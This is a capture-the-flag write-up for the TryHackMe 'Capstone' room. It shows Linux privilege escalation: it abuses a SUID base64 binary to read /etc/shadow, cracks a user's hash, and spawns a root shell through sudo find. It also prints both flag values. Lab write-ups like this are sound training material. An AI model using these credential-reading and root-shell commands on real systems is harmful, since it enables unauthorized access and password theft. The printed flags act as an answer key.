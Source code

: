 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/try-hack-me/capstone/","tags":["CTF","write-up","SUID","sudo-l"]}
---
```



---
# Privilege Escalation
## Check for SUID files
```shell
find / -perm -u=s -type f -ls 2>/dev/null
```
We found `base64`
![Pasted image 20240819181358.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819181358.png)
## Use https://gtfobins.github.io/ to exploit it.
We can read any file, we read `/etc/shadow` to see the hash of other users.
```shell
LFILE=/etc/shadow
base64 "$LFILE" | base64 --decode
```
![Pasted image 20240819181615.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819181615.png)
## On our machine crack the hash missy
Create a file passwd, copy the missy line of passwd
![Pasted image 20240819181914.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819181914.png)
Create the shadow, copy the missy line of shadow
![Pasted image 20240819182033.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819182033.png)
Unshadow the file using `unshadow` to the unshadowed file
```shell
unshadow passwd shadow > unshadowed
```
Crack the unshadowed file
![Pasted image 20240819182246.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819182246.png)
## Get the first flag
Login as missy
```shell
su missy
```
The flag is on `/home/missy/Documents`
![Pasted image 20240819182541.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819182541.png)
> [!check]- flag1.txt
> THM-42828719920544
## Escalate to root

Check `sudo -l` for missy
![Pasted image 20240819183619.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819183619.png)
Leverage `find`
```shell
sudo find / etc/passwd -exec /bin/bash \;
```
![Pasted image 20240819183906.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819183906.png)
We are root now
## Get the second flag
![Pasted image 20240819184137.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240819184137.png)
> [!check]- flag2.txt
> THM-168824782390238

---